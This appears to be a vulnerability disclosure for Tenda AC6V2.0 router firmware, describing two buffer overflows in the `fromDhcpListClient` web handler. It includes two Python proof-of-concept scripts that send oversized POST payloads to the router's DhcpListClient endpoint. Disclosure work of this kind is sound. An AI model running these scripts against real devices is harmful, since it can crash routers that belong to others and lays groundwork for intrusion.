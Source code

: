 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromDhcpListClient"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

Within the `fromDhcpListClient` function, users can craft a POST request to supply three parameters: `LISTLEN`, `page`, and `list_listcnt`. There are two distinct overflow vulnerabilities inside this function:

1. The `page` parameter is directly used in a `sprintf` call: `sprintf(gotopage, "/network/lan_dhcp_static.asp?page=%s", page);`. If the length of `page` exceeds the `gotopage` buffer's size of **256 bytes**, it will cause an overflow.
2. The `list1` parameter, whose content is controlled by `LISTLEN` , is copied using `strcpy(tmpstr, list + 1);`. If the length of `list` (starting from its second character) exceeds the `tmpstr` buffer's size of **256 bytes**, it will also lead to an overflow.

![image-20250618174727129](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618174727129.png)

```python
import requests
def send_payload(url, payload):
    params={
            'LISTLEN':b'0',
            'page':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/DhcpListClient"
send_payload(url, payload)

#another poc
import requests
def send_payload(url, payload):
    params={
            'LISTLEN':b'1',
            'page':'',
            'list1':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500+b'\n'
url="http://192.168.1.1/goform/DhcpListClient"
send_payload(url, payload)   
```

![image-20250618180317057](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618180317057.png)